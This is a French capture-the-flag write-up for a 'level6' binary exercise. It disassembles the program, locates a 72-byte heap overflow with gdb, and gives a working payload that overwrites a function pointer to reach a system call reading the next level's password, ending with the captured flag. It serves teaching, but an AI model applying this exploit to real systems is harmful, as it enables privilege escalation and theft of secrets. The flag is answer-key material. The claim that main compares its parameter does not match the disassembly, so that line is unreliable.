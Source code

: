 ## Démarche

- Le programme `./level6` prend au moins un paramètre
    > Segmentation fault (core dumped)
    `/level6 1`
    > Nope

- `objdump -d level6` :
  ```
    08048454 <n>:
        8048454:	55                   	push   %ebp
        8048455:	89 e5                	mov    %esp,%ebp
        8048457:	83 ec 18             	sub    $0x18,%esp
        804845a:	c7 04 24 b0 85 04 08 	movl   $0x80485b0,(%esp)
        8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
        8048466:	c9                   	leave
        8048467:	c3                   	ret

    08048468 <m>:
        8048468:	55                   	push   %ebp
        8048469:	89 e5                	mov    %esp,%ebp
        804846b:	83 ec 18             	sub    $0x18,%esp
        804846e:	c7 04 24 d1 85 04 08 	movl   $0x80485d1,(%esp)
        8048475:	e8 e6 fe ff ff       	call   8048360 <puts@plt>
        804847a:	c9                   	leave
        804847b:	c3                   	ret
    
    0804847c <main>:
        804847c:	55                   	push   %ebp
        804847d:	89 e5                	mov    %esp,%ebp
        804847f:	83 e4 f0             	and    $0xfffffff0,%esp
        8048482:	83 ec 20             	sub    $0x20,%esp
        8048485:	c7 04 24 40 00 00 00 	movl   $0x40,(%esp)
        804848c:	e8 bf fe ff ff       	call   8048350 <malloc@plt>
        8048491:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        8048495:	c7 04 24 04 00 00 00 	movl   $0x4,(%esp)
        804849c:	e8 af fe ff ff       	call   8048350 <malloc@plt>
        80484a1:	89 44 24 18          	mov    %eax,0x18(%esp)
        80484a5:	ba 68 84 04 08       	mov    $0x8048468,%edx
        80484aa:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484ae:	89 10                	mov    %edx,(%eax)
        80484b0:	8b 45 0c             	mov    0xc(%ebp),%eax
        80484b3:	83 c0 04             	add    $0x4,%eax
        80484b6:	8b 00                	mov    (%eax),%eax
        80484b8:	89 c2                	mov    %eax,%edx
        80484ba:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484be:	89 54 24 04          	mov    %edx,0x4(%esp)
        80484c2:	89 04 24             	mov    %eax,(%esp)
        80484c5:	e8 76 fe ff ff       	call   8048340 <strcpy@plt>
        80484ca:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484ce:	8b 00                	mov    (%eax),%eax
        80484d0:	ff d0                	call   *%eax
        80484d2:	c9                   	leave
        80484d3:	c3                   	ret
  ```
    Le `main` prend un paramètre et le compare, en fonction du résultat, il appelle la fonction `m` qui *puts* "Nope\n" ou la fonction `n` qui fait un appel système.

- Si on jump à l'adresse de `n` manuellement depuis gdb, on peut constater que la fonction `n` appelle un *bash* et *cat* le fichier *.pass* :
    ```
    [New process 4645]
    process 4645 is executing new program: /bin/dash
    process 4646 is executing new program: /bin/cat
    /bin/cat: /home/user/level7/.pass: Permission denied
    ```


- Avec peda dans gdb, on récupère la taille allouée pour la copie du paramètre :

    `pattern search`
    ```
    Registers contain pattern buffer:
    EIP+0 found at offset: 72
    EAX+0 found at offset: 72
    No register points to pattern buffer
    Pattern buffer found at:
    0x0804a008 : offset    0 - size  100 ([heap])
    0xbffff87d : offset    0 - size  100 ($sp + 0x201 [128 dwords])
    References to pattern buffer found at:
    0xbffff670 : 0x0804a008 ($sp + -0xc [-3 dwords])
    0xbffff680 : 0x0804a008 ($sp + 0x4 [1 dwords])
    0xbffff69c : 0x0804a008 ($sp + 0x20 [8 dwords])
    0xbffff668 : 0xbffff87d ($sp + -0x14 [-5 dwords])
    0xbffff684 : 0xbffff87d ($sp + 0x8 [2 dwords])
    0xbffff748 : 0xbffff87d ($sp + 0xcc [51 dwords])
    ```

- `./level6 $(python -c 'print("A"*72+"\x54\x84\x04\x08")')`
> f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d


<br>


---

## Ressources